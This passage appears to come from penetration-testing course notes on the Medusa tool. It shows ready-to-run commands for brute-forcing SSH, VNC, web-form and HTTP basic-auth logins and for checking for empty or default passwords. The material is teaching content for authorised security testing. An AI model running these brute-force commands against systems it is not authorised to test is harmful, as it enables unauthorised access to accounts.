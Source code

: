 |VNC|Virtual Network Computing|Brute-forcing VNC login credentials for remote desktop access.|`medusa -M vnc -h 192.168.1.100 -P passwords.txt`|
|Web Form|Brute-forcing Web Login Forms|Brute-forcing login forms on websites using HTTP POST requests.|`medusa -M web-form -h www.example.com -U users.txt -P passwords.txt -m FORM:"username=^USER^&password=^PASS^:F=Invalid"`|
### Targeting an SSH Server
Imagine a scenario where you need to test the security of an SSH server at `192.168.0.100`. You have a list of potential usernames in `usernames.txt` and common passwords in `passwords.txt`. To launch a brute-force attack against the SSH service on this server, use the following Medusa command:
```bash
medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh 
```
Instructs Medusa to:
- Target the host at `192.168.0.100`.
- Use the usernames from the `usernames.txt` file.
- Test the passwords listed in the `passwords.txt` file.
- Employ the `ssh` module for the attack.

Medusa will systematically try each username-password combination against the SSH service to attempt to gain unauthorized access.
### Targeting Multiple Web Servers with Basic HTTP Authentication
Suppose you have a list of web servers that use basic HTTP authentication. These servers' addresses are stored in `web_servers.txt`, and you also have lists of common usernames and passwords in `usernames.txt` and `passwords.txt`, respectively. To test these servers concurrently, execute:
```bash
medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET 
```
Medusa will:
- Iterate through the list of web servers in `web_servers.txt`.
- Use the usernames and passwords provided.
- Employ the `http` module with the `GET` method to attempt logins.

By running multiple threads, Medusa efficiently checks each server for weak credentials.
### Testing for Empty or Default Passwords
If you want to assess whether any accounts on a specific host (`10.0.0.5`) have empty or default passwords (where the password matches the username), you can use:
```bash
Kolbesmith24@htb[/htb]$ medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name
```
Instructs Medusa to:
- Target the host at `10.0.0.5`.
- Use the usernames from `usernames.txt`.
- Perform additional checks for empty passwords (`-e n`) and passwords matching the username (`-e s`).
- Use the appropriate service module (replace `service_name` with the correct module name).

Medusa will try each username with an empty password and then with the password matching the username, potentially revealing accounts with weak or default configurations.
# Web Services
## Kick-off
We can start once we have a SSH or FTP server running on a remote system.
### Example
Assuming prior knowledge of the username `sshuser`, we can leverage Medusa to attempt different password combinations until successful authentication is achieved systematically.
